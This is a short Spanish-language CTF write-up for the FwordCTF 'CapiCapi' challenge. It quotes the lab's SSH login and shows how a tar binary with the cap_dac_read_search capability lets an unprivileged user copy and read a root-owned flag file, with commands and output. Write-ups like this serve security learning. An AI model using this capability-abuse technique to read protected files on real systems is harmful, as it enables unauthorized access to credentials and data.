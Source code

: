 # Fword
## Bash
### CapiCapi
*You have to do some privilege escalation in order to read the flag! Use the following SSH credentials to connect to the server, each participant will have an isolated environment so you only have to pwn me!
SSH Credentials
ssh -p 2222 ctf@capicapi.fword.wtf
Password: FwordxKahla
Author: KAHLA*

Nos conectamos a la máquina objetivo y vemos que hay un flag.txt en el /home de nuestro usuario owneado por el root, despues de checkear vectores normales encontramos una capabilite poco comun
```
/usr/bin/tar = cap_dac_read_search+ep
```
Con esto podremos leer la flag sin problema al igual que cualquier otro archivo owned por root, ejecutamos lo siguiente
```bash
user1@c2002c8c2350:/home/user1$ /usr/bin/tar -cvf flag.tar /home/user1/flag.txt ## Con esto obtenmos una copia comprimida del archivo
/usr/bin/tar: Removing leading `/' from member names
/home/user1/flag.txt
user1@c2002c8c2350:/home/user1$ /usr/bin/tar -xvf flag.tar ## Con esto lo descomprimimos
home/user1/flag.txt
user1@c2002c8c2350:/home/user1$ cat home/user1/flag.txt ## Leemos la flag
FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}
```
